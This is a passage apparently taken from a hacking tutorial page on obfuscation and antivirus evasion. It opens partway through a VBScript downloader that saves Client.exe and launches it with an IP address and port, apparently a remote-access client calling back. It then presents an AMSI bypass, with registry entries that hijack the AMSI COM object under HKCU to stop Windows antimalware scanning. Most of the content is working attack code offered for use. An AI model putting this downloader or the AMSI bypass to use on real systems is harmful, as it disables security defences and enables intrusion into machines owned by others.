 ```

Set objFSO = Createobject("Scripting.FileSystemObject")
if objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
Set objFSO = Nothing

objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if

Set objXMLHTTP = Nothing
x=MsgBox("File Successfully Downloaded" & vbCrLf & "Storage: C:\Users\pedro\Desktop\Client.exe",64,"VBS Downloader")
CreateObject("WScript.Shell").Exec "cmd /b /R start /b /min Client.exe ip=192.168.1.73 port=666"
```
![tr](https://user-images.githubusercontent.com/23490060/94852614-1143fe80-0422-11eb-8729-5891e729064f.png)

---

[0] [Glosario (Index)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/simple_obfuscation.md#glosario-index)<br />

---

<br /><br /><br /><br />

## AMSI COM/REG Bypass

      Microsoft’s Antimalware Scan Interface (AMSI) was introduced in Windows 10 as a standard interface
      that provides the ability for AV engines to apply signatures to buffers both in memory and on disk.

![enigma0x3 - AMSI Bypass](http://i66.tinypic.com/mrstv9.png)
`HINT: Invoke-Expression powershell command flagging AMSI detection`<br />

---

<br />

- **AMSI** .COM Object DLL hijacking [ enigma0x3 ]

      [ AMSI COM Bypass ] Since the COM server is resolved via the HKCU hive first, a normal user can hijack
      the InProcServer32 key and register a non-existent DLL (or a malicious one if you like code execution).
      In order to do this, there are two registry entries that need to be made:

<br />

      Windows Registry Editor Version 5.00
      [HKEY_CURRENT_USER\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}]
      [HKEY_CURRENT_USER\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\InProcServer32]
      @="C:\\IDontExist.dll"

<br />
